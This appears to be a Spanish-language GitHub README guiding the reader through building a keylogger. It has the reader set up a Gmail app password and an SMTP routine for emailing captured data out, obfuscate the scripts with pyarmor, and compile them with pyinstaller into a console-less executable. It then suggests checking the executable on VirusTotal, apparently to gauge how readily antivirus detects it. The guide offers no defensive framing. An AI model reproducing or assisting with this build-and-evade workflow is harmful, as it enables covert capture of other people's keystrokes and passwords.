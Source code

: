 # **Keylogger: Guía de Configuración y Uso**

## **1. Requisitos Previos**

### **a. Configuración del Entorno**

1. **Instalar Python**:  
   Asegúrate de tener Python 3.x instalado en tu sistema.  
   Descárgalo desde [python.org](https://www.python.org/downloads/).
2. **Instalar las dependencias necesarias**:  
   Ejecuta el siguiente comando en tu terminal:
   ```bash
   pip install pynput
   ```
### **b. Crear una Clave de Aplicación en Gmail**
Accede a tu cuenta de Gmail.
Ve a la página de configuración de contraseñas de aplicación:
myaccount.google.com/apppasswords
Genera una clave de aplicación:
Selecciona "Correo" como aplicación.
Selecciona "Equipo personal" como dispositivo.
Copia la clave generada (por ejemplo: yxki jwbt ebfu khvc).

![Pasted image 20240628130101](https://github.com/user-attachments/assets/88b09cca-fac8-4f1a-893a-319198f6ae93)

⚠️ Importante: No compartas esta clave públicamente y guárdala de forma segura.

## **2. Crear el Script del Keylogger**
### **a. Archivos Requeridos**
Crea los siguientes archivos con el código proporcionado:

- Archivo: main.py
- Archivo: keylogger.py

### **b. Clave de aplicación**
La parte del script donde añadir los datos de envió del mail están en esta parte, y no te olvides de importar las librerías!!!
```python
import smtplib
from email.mime.text import MIMEText

subject = "Email Subject"
body = "This is the body of the text message"
sender = "sender@gmail.com"  #Sender Email Address
recipients = ["recipient1@gmail.com", "recipient2@gmail.com"]  # Multiple email address can be given
password = "password" # Gmail Application Password

# We will create a function to send mail .We will pass above values in funcion parameter.
def send_email(subject, body, sender, recipients, password):
    msg = MIMEText(body)   # Creating msg object using MIMEText class of email module
    msg['Subject'] = subject  # Assigning the subject
    msg['From'] = sender  # Assigning the sender email address
    msg['To'] = ', '.join(recipients)  # Assigning recepients email address.
    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:   # Creating connection using context manager
       smtp_server.login(sender, password)
       smtp_server.sendmail(sender, recipients, msg.as_string())
    print("Email sent Successfully!")


# We will call the function and pass the parameter values defined in line no 4 to 8.
send_email(subject, body, sender, recipients, password)
```
## **3. Ofuscar el Código**
Ejecuta los siguientes comandos para ofuscar los scripts:
```python
pyarmor gen keylogger.py
pyarmor gen main.py
```
![Pasted image 20241204191457](https://github.com/user-attachments/assets/efd58f8e-b7cc-419b-b7c8-a24d85e9aa7f)

## **4. Compilar**
Usa pyinstaller para generar un ejecutable:
```python
pyinstaller --onefile --noconsole --add-data "dist/keylogger.py;." --hidden-import=pynput.keyboard --hidden-import=smtplib --hidden-import=termcolor --hidden-import=socket --hidden-import=os --hidden-import=email.mime --hidden-import=email.mime.text dist/main.py
```
![Pasted image 20241204191801](https://github.com/user-attachments/assets/e6a870b2-bc81-4ba5-b413-39a2a56b7f9e)

## **4. Resultado Final**
1. **Ejecutables Generados**
Una vez compilado, tendrás un archivo ejecutable en la carpeta dist.
El resultado se verá del siguiente modo:
![Pasted image 20241204192049](https://github.com/user-attachments/assets/01054c9d-8156-4a8f-a3ce-c25776f76ae5)

2. **Análisis en Virus Total**
Puedes analizar el ejecutable en Virus Total para comprobar su estado.
![Pasted image 20241204192640](https://github.com/user-attachments/assets/16ce5656-e36b-4ed4-b355-19718fb753f6)




